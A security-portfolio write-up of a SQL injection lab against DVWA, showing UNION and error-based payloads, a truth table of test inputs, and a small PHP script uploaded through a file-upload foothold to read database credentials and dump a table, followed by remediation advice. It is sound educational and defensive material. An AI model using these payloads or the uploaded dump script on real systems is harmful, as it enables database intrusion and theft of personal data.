







# SQL Injection in DVWA — UNION Extraction & a Pivot to RCE


A walkthrough of an in-band SQL injection in DVWA's **SQL Injection** module. The `id` parameter is concatenated into a query with no sanitization, so a `'` breaks out and `UNION` appends attacker-controlled rows. The injection was trivial to confirm — but this particular build had a broken output channel that dropped **any UNION result containing data**, so the clean solve was to **pivot through the File Upload RCE foothold** and read the database directly. A realistic "when one channel breaks, use another" moment.

> ⚠️ **Disclaimer** — Performed against an authorized lab instance of the intentionally vulnerable [Damn Vulnerable Web Application (DVWA)](https://github.com/digininja/DVWA). Never run these techniques against systems you don't own or have explicit permission to assess.



---

## Table of Contents
- [TL;DR](#tldr)
- [Environment](#environment)
- [Step 1 — Recon: read the source](#step-1--recon-read-the-source)
- [Step 2 — Confirm the injection](#step-2--confirm-the-injection)
- [Step 3 — Build the UNION payload](#step-3--build-the-union-payload)
- [Step 4 — The wall: a broken output channel](#step-4--the-wall-a-broken-output-channel)
- [Step 5 — Pivot: read the DB via the RCE foothold](#step-5--pivot-read-the-db-via-the-rce-foothold)
- [Why it works](#why-it-works)
- [Impact](#impact)
- [Remediation](#remediation)
- [Key takeaways](#key-takeaways)
- [References](#references)

---

## TL;DR

`?id=` is concatenated into `... WHERE user_id = '$id'`. Break out and UNION:

```sql
' UNION SELECT table_name, table_name FROM information_schema.tables #
```

The target table is `vips` (`id, name, email`). The intended in-channel payload is:

```sql
' union select null, email from dvwa.vips #
```

On this build every UNION-with-data response came back empty, so I pivoted through the File Upload foothold (`sql.php`) to dump the table directly. Recovered email: `7adnan.hal@…` *(redacted)*.

---

## Environment

| | |
|---|---|
| **Target** | Damn Vulnerable Web Application (DVWA) v1.9 |
| **Module** | SQL Injection |
| **Security level** | `low` |
| **Parameter** | `id` (GET/REQUEST) |
| **DB** | MySQL, database `dvwa` |
| **Approach** | Grey-box — source available via *View Source* |

The direct-read helper is in [`payloads/sql.php`](payloads/sql.php).

---

## Step 1 — Recon: read the source

**View Source** shows the query is built by string concatenation:



```php
$id     = $_REQUEST[ 'id' ];
$query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
$result = mysql_query( $query ) or die( '<pre>' . mysql_error() . '</pre>' );
```

Two gifts here: `$id` is placed inside single quotes with no escaping (inject with `'`), and `or die(mysql_error())` **prints SQL errors to the page** — excellent feedback while building payloads. The base query returns exactly **two** columns, so any `UNION SELECT` must also return two.

## Step 2 — Confirm the injection

A single quote is all it takes. Input `1'`:



```
You have an error in your SQL syntax; ... near ''1''' at line 1
```

That error is proof the input reaches the query unescaped — the injection point is open.



## Step 3 — Build the UNION payload

The base query returns two columns, so the UNION needs two. To enumerate tables (finding the one starting `vi`):

```sql
' UNION SELECT table_name, table_name FROM information_schema.tables #
```

`'` empties the `user_id` match, `UNION SELECT` appends rows, `#` comments off the trailing `';`. The first UNION column renders under **First name**, the second under **Surname**.

## Step 4 — The wall: a broken output channel

Here's where this build got interesting. Methodically isolating what worked:

| Payload | Result |
|---|---|
| `1` | renders (`admin / admin`) |
| `1'` | **SQL error** (injection confirmed) |
| `1' UNION #` | **SQL error** (UNION keyword fine) |
| `1' AND ascii(1)=49 AND '1'='1` | **renders one row** |
| `1' OR '1'='1` (4 rows) | **empty page** |
| `' UNION SELECT 1,2 #` (any UNION w/ data) | **empty page** |

The pattern: every query that returned **rows of data beyond the single base row** produced an empty response, while 0-row errors and single-row queries rendered fine. The `ascii(1)=49` payload returning one clean row confirms functions/quotes/keywords all work:



So the vulnerability is 100% real and confirmed — but this instance's HTML output channel drops UNION-with-data responses. Rather than fight it, pivot.

## Step 5 — Pivot: read the DB via the RCE foothold

From the File Upload exercise I already had **code execution** in `hackable/uploads/`. Instead of coaxing data through the broken SQLi output, query MySQL directly with PHP. [`sql.php`](payloads/sql.php) reads DVWA's own DB credentials from `config.inc.php`, connects, finds the `vi*` table, and dumps it:

```php
<?php
// reads creds from config.inc.php, connects, dumps the vi_* table
$mysqli = new mysqli($host, $user, $pass, $db);
$r = $mysqli->query("SELECT * FROM `$db`.`vips`");
while ($row = $r->fetch_assoc()) echo implode(" | ", $row)."\n";
?>
```

Uploading it and browsing to `/hackable/uploads/sql.php` returned:



```
config loaded from: /var/www/html/config/config.inc.php   (connected as root)
=== vi_* tables ===        vips
=== columns of vips ===    id  name  email
=== rows of vips ===       1 | jose | 7adnan.hal@…   (email redacted — the answer)
```

Table `vips`, column `email` — the address is the flag to submit.

### The intended in-channel solve

For completeness, on a healthy DVWA the exercise finishes purely in SQLi. The Step-4 email payload is:

```sql
' union select null, email from dvwa.vips #
```

And when the output channel is fragile but errors render (as here), **error-based** extraction delivers data inside a one-line error, avoiding large result pages:

```sql
' OR extractvalue(1, concat(0x7e, (SELECT email FROM dvwa.vips LIMIT 1)))-- -
```

→ `XPATH syntax error: '~7adnan.hal@…'`

## Why it works

The query is assembled by pasting user input into a string. The database can't tell "data" from "SQL," so a `'` ends the intended string literal and everything after is parsed as query syntax. `UNION` then welds a second `SELECT` — over *any* table — onto the result.

## Impact

- Read any data in the database (users, hashes, PII) — here, the `vips` table's email
- Authentication bypass and data tampering (`UPDATE`/`DELETE` via stacked or boolean logic)
- With `FILE` privileges or `INTO OUTFILE`, read/write server files → potential RCE
- Combined with a web-shell foothold (as here), full database disclosure regardless of output quirks

## Remediation

- **Use parameterized queries / prepared statements.** Bind `id` as a parameter so it's never parsed as SQL. This is the fix.
- **Least-privilege DB account.** The app should not connect as `root`; restrict to the tables/columns it needs.
- **Don't leak errors.** Return generic messages; log details server-side (`or die(mysql_error())` is an info leak).
- **Defense in depth.** Input validation and a WAF help, but never replace parameterization.

## Key takeaways

- Confirm before extracting: `1'` throwing a SQL error proved the bug in one keystroke.
- Isolate variables when things misbehave — a truth table of payloads pinpointed that *UNION-with-data* specifically broke, not spaces/quotes/keywords.
- Pivoting is a real skill: a web-shell from one flaw read the database when another flaw's output channel failed. Chaining beats brute-forcing a broken channel.
- Keep `extractvalue`/error-based in your kit for when result sets can't render.

## References

- OWASP — [SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)
- OWASP — [SQL Injection Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
- PortSwigger — [SQL injection UNION attacks](https://portswigger.net/web-security/sql-injection/union-attacks)
- MITRE — [CWE-89](https://cwe.mitre.org/data/definitions/89.html)
- [DVWA on GitHub](https://github.com/digininja/DVWA)

---

<sub>A formal PDF version of this assessment is included as <code>DVWA_SQL_Injection_Report.pdf</code>. Part of my security learning portfolio.</sub>
